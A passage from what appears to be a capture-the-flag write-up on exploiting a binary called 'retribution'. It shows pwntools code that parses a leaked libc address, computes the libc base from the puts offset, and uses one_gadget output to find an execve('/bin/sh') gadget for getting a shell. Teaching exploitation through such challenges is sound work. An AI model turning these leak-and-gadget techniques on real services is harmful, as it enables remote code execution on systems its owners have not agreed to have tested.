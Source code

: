 ![libc leak position](img/retribution_libc_leak_position.png)
  
The purple bytes are the bytes right before our leaked libc address. The red bytes are our leaked address. Now we know how to read the address in our script:

````python
# ...
r.sendline(payload)

# receive bytes until right before the leaked libc address
r.recvuntil(b'[1;34m\n')
leak = r.recv(6)
libc_puts_address = int.from_bytes(leak, byteorder='little')
````  

With that and the offset of ``puts`` in libc we can finally calculate the libc base address:

````python
libc = ELF("./glibc/libc.so.6", False)
libc_puts_offset = libc.symbols["puts"]
# ...
libc_puts_address = int.from_bytes(leak, byteorder='little')
libc_base_address = libc_puts_address - libc_puts_offset
````  
  
Now we have everything but the "one gadget" we're talking about above. We can search for those with a tool called ``one_gadget``:  
  
<pre>
<span style="color:lime">cjreek@kali</span>:<span style="color:cornflowerblue">~</span>$ one_gadget ./glibc/libc.so.6
</pre>
<pre>
0x45226 execve("/bin/sh", <span style="color:lime">rsp</span>+0x30, environ)
<span style="color:salmon">constraints</span>:
  <span style="color:lime">rax</span> == NULL
